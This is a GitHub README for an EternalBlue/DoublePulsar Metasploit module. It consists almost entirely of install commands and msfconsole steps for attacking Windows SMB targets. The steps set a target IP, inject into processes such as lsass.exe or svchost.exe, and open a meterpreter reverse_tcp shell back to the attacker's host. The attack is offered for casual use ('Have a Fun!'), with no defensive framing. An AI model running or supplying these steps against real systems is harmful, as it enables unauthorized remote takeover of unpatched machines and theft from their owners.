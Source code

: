 # Eternalblue-Doublepulsar-Metasploit

# How to Install
<pre>
~]# dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
~]# git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
~]# cd Eternalblue-Doublepulsar-Metasploit
~]# cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb

Note !!!: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb

- mkdir -p /root/.wine/drive_c/
</pre>
# How to use
<pre>
~]# service postgresql start
~]# service postgresql enable
~]# msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options
</pre>
<br>
 ## + For Windows x64 
<br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT lsass.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 </pre>
 ## + For Windows x86
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 </pre>
 ## Have a Fun! :)
